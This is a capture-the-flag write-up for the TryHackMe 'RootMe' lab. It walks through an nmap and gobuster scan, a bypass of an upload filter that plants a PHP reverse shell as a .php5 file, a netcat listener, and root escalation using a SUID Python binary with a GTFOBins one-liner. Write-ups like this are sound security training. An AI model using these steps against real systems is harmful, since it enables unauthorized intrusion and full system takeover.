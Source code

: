 ```yaml
---
title: "TryHackMe - RootMe"
permalink: /writeups/tryhackme/rootme
---
```


![TryHackMe - RootMe (Easy)](images/RootMe.png)
<h1><ins>TryHackMe: RootMe</ins></h1>

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** RootMe\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - RootMe (Easy)](https://tryhackme.com/room/rrootme) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 16:53 GMT
Nmap scan report for 10.10.69.147
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I see that there is a website hosted on port 80. Browsing to the website, it seems to just be a simple page saying **Can you root me?**.

## Gobuster Scan
```
/index.php
/uploads
/css
/js
/panel
```
**/uploads** and **/panel** look interesting.
- **/uploads** is an empty directory
- **/panel** has a file upload form

I'm guessing that files that get uploaded can be accessed in the **/uploads** directory. I try to upload a simple text file to see if this is true, and it is.

## Foothold
Now I know that files that are uploaded can be accessed directly from te **/uploads** directory, and I know that the webserver is running on PHP (as the index page is named **index.php**), I will try upload a **.php** file to get code execution.

My first attempt at uploading a PHP file was blocked as files with a **.php** file extensions are not allowed. So I open up BurpSuite Intruder to test different file extensions to see which one works. I find that **.php5** works. Now I know that I can upload a **.php5** file, it's time to upload a PHP reverse shell.

I like to use the PHP reverse shell made by `pentestmonkey` on GitHub. You can find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

(Just make sure to change the IP and Port in the reverse shell, to your listener IP and Port, before saving it as a **.php5** file)

I then started a listener `nc -nvlp <port>`

It's time to upload the reverse shell and then activate it by browsing to the file in **/uploads**.

Now I have a shell on the machine and stabilize it using `python3 -c 'import pty;pty.spawn("/bin/bash")'` and I can see that I have a shell as `www-data`.

I find the user flag in `/var/www`. Now I have the user flag, it's time to become root!

## Privilege Escalation (root)
Running the command `find / -perm -4000 2>/dev/null`, to find SUID binaries I have access to, returns a long list of them. But one of them stands out above the rest `/usr/bin/python`. Python is not usually a SUID binary you would see on Linux machines. I can abuse this using a technique that can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

The command: `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Success! I run the command and it spawns a root shell!

I change directory to **/root** and find the root flag to complete the CTF.
